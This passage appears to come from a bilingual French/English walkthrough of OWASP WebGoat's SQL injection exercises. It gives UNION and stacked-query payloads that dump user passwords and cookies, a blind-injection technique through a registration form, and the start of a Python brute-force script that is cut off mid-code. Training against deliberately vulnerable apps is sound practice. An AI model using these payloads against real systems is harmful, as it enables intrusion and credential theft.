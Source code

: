 *   Name: `'; SELECT * FROM user_system_data;--` ou `' UNION SELECT 1, user_name, password, cookie, 'A', 'B', 1 from user_system_data;--` Name: `';
*   Password: `passW0rD`

5.  
![Hint](images/wiki_owasp_webgoat/hint.png) Look at the different response you receive from the server  
![Hint](images/wiki_owasp_webgoat/hint.png) The vulnerability is on the register form  
![Hint](images/wiki_owasp_webgoat/hint.png) The vulnerable field is the username field of the register form.  
![Hint](images/wiki_owasp_webgoat/hint.png) Use tooling to automate this attack  
![Hint](images/wiki_owasp_webgoat/hint.png) The table name is randomized at each start of WebGoat, try to figure out the name first.  
![Hint](images/wiki_owasp_webgoat/hint.png) Change the password through an UPDATE Statement.

Comme spécifié dans les indices, il est possible de changer le mot de passe à l'aide d'un `UPDATE`. Il est aussi possible de retrouver le mot de passe d'origine comme nous allons le voir dans la solution proposée. As specified in the hints, it is possible to change the password using an `UPDATE`. It is also possible to find the original password as we will see in the proposed solution.

*   Le formulaire **Login** ne semble pas fournir de résultats utiles à partir de diverses entrées, mais le formulaire **Register** nous permet de vérifier si un nom d'utilisateur existe déjà.
*   Si nous essayons de nous inscrire avec le nom d'utilisateur suivant: `tom' AND '1'='1` nous constatons que le nom d'utilisateur est pris.
*   Nous pouvons utiliser cela comme un oracle et vérifier le mot de passe de Tom, une lettre à la fois.
*   La table que nous recherchons s'appelle `password` (_guessing_), nous pouvons donc essayer de nous enregistrer avec le nom d'utilisateur suivant : `tom' AND substring(password, 1,1)='t`.
*   La réponse indique que le nom d'utilisateur existe déjà, nous savons que **t** est le premier caractère du mot de passe de Tom.
*   En _fuzzing_ pour les caractères restants, nous pouvons déterminer que le mot de passe de Tom est **thisisasecretfortomonly**.

Ce challenge peut être un bon exercice pour s'entraîner au scripting. Ci-dessous, un petit exemple de code Python permettant de retrouver la réponse:

```python
import json  
import requests  
  
def sql_injection_advance_5():  
     alphabet_index = 0  
     alphabet = 'abcdefghijklmnopqrstuvwxyz'  
     password_index = 0  
     password = ''  
  
     headers = {  
        'Cookie': COOKIE,  
     }  
  
     while True:  
         payload = 'tom\' AND substring(password,{},1)=\'{}'.format(password_index + 1, alphabet[alphabet_index])  
  
         data = {  
             'username_reg': payload,  
             'email_reg': 'a@a',  
             'password_reg': 'a',  
             'confirm_password_reg': 'a'  
```
